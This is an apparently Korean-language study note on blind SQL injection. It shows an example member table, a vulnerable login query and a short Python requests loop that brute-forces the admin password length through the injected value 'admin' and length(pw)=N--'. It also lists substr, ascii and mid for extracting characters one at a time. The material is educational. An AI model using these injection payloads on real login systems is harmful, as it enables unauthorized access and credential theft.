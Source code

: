 # blind sql injection

### blind sql injection 이란?

> 임의의 sql 구문을 만들어 데이터를 열람하는 공격이다.

즉 어떠한 데이터베이스에 공격을할때 임의의 query 를 만들어서 반환값을 이용해 한글자씩 따온다.

예 db 구조
```sql
database -> member
tables -> member
column -> (id,pw)
data -> ("admin","password"),("guest","guest")
```
```sql
SELECT * FROM member WHERE id='' and pw='';
```
위의 sql 쿼리로 login 을 체크할 시에
python 으로 blind sql injection 예를 든다면

```py
import requests

Url = "in url"

for length in range(1,100):
    data = {
        'uid':f"admin' and length(pw)={length}--'"
        'upw':'a'
    }

    r = requests.post(Url).text

    if r.find("Login succee!") > 0:
        print("admin user length pw : ",length)
        break
```

위의 python script 말고도 보고싶으면 밑의 링크에서 참고하면 좋다.

+ [blind sqli python script](https://github.com/kimminwyk/Study-notes/blob/master/MYSQL/MYSQL-SQL-injection/blind-sql-injection/blind-sql-injection-python-script.md)

+ [blind sqli node.js script](https://github.com/kimminwyk/Study-notes/blob/master/MYSQL/MYSQL-SQL-injection/blind-sql-injection/blind-sql-injection-node_js-script.md)


다음과 같은 예로 data 라는 변수에 dict 형식으로 

blind sqli 에 사용되는 쿼리를 만들어서 

requests 모듈로 요청한 뒤에 find 함수로 로그인 성공 감지됐다면 length 를 출력하는식이다.

* * *

간단하게 length(pw)={length} 에서 {} 안에 for loop 로 브루트포싱하여

참값이 될때까지 반복하는것이다.

위의 블라인드 인젝션이 성공되는 경우에는

```sql
SELECT * FROM member WHERE id='admin' and length(pw)=[1~100]
```

다음 쿼리와 같이 참의 값이 만들어져서 Login 이 우회되는것을 감지한다.

* * *

### length

그리고 mysql 에서 length() 는 안에 들어가는 데이터나 값을 넣으면 해당 데이터의 길이를 반환한다.

### 마무리

blind sqli 에서 length 말고도 다양한 쿼리가 존재한다

substr , left , ascii , mid 등등 다양한 문자열 , 길이를 브루트포싱하기위해 사용되는 함수가 많다.

